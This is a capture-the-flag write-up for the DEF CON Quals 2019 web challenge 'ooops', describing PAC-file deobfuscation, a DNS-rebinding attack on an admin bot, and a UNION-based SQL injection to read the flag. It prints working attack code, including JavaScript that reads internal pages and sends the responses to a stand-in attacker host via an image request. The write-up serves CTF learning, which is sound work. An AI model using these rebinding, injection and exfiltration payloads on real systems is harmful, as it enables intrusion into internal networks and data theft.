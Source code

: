 ```yaml
---
layout: post
title: "Defcon ctf quals 2019 : ooops"
tags:
  - writeup
  - web
comments: true
---
```


# Defcon ctf quals 2019 : ooops

**Category:** Web
**Points:** 137
**Solves:** 34
**Description:**

> On our corporate network, the only overflow is the Order of the Overflow. <br/>
> Files: <a href="https://s3.us-east-2.amazonaws.com/oooverflow-challs/b48fb18a0837e8e6840d5101ff44bb9ee5ee1d22846580487ccce756b966f6b2/info.pac">info.pac</a>


## Write-up
### 1. javascript deobfuscate.
Change `eval` to `console.log`.
```js
FindProxyForURL = function(url, host) {
	/* The only 'overflow' that employees can access is the Order of the Overflow. Log in with OnlyOne:Overflow. HTTPS support is coming soon. */ 
	if (shExpMatch(host, 'oooverflow.io')) return 'DIRECT';
	return 'PROXY ooops.quals2019.oooverflow.io:8080';
}
```
now, we can access challenge page !

### 2. DNS Rebinding.
if you send a URL, the bot access to the URL. And you look at the referer of http header, you can see that it starts from the internal IP address. (ex: 10.x.x.x)

I tried DNS rebinding. I could not access the internal page using XHR because of SOP(same origin policy).

> 1. Send my server Address ( ex: `[A.hacker.com]` == my server address )
> 2. Check the bot's connection and referer header(Internal Address).
> 3. Send js Script to bot.
> 4. Change `[A.hacker.com]`'s DNS to Internal Address. ( ex: `[A.hacker.com]` == 10.x.x.x )

- server.py
```python
from flask import Flask, request
import threading
import time

app = Flask(__name__)

@app.route("/")
def hello():
    re = request.headers['Referer']
    print re
    return open('index.html').read()

app.run(host='0.0.0.0', port=5000)
```

- index.html
```html
<script>
setTimeout(function() {
  var xhr = new XMLHttpRequest();
  xhr.open("GET", "http://[A.hacker.com]/admin/view/1");
  xhr.onreadystatechange = function () {
    if (xhr.readyState === 4) {
      var img = new Image();
      img.src = "http://[hacker.com]/res?x=" + btoa(xhr.responseText);
    }
  };
  xhr.send();
}, 10000);
</script>
```

### 3. SQL Injection.

Now We can see the internal page ! And It looks like a SQL injection !

- response html
```html
<!doctype html>
<html>
<head>
<title>OOOPS &mdash; Evaluate Requests</title>
<link href="/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-ggOyR0iXCbMQv3Xipma34MD+dH/1fQ784/j6cY/iJTQUOhcWr7x9JvoRxT2MZw1T" crossorigin="anonymous"></head>
<body>
<div class="container">
<div class="row">

<!-- Query: select rowid,* from requests where rowid=1; -->

<p>
Request #1 from b&#39;10.255.0.2&#39;.
 Automatically evaluated 
</p>

<a id="lnk" class="btn btn-secondary btn-block btn-lg" href="http://3ccdcab0.0a00061a.rbndr.us:5000">
Visit http://3ccdcab0.0a00061a.rbndr.us:5000
</a>

</div>
</div>
</body>
</html>
```

- index.html
```html
<script>
setTimeout(function() {
  var xhr = new XMLHttpRequest();
  xhr.open("GET", "http://[A.hacker.com]/admin/view/-1%20union%20select%201,2,3,group_concat(flag),5%20from%20flag");
  xhr.onreadystatechange = function () {
    if (xhr.readyState === 4) {
      var img = new Image();
      img.src = "http://[hacker.com]/res?x=" + btoa(xhr.responseText);
    }
  };
  xhr.send();
}, 10000);
</script>
```

<img src='https://github.com/wooeong2/ctfs/blob/master/writeups/2019/Defcon%20Quals/ooops/flag.png'>

### FLAG
> OOO{C0rporateIns3curity}
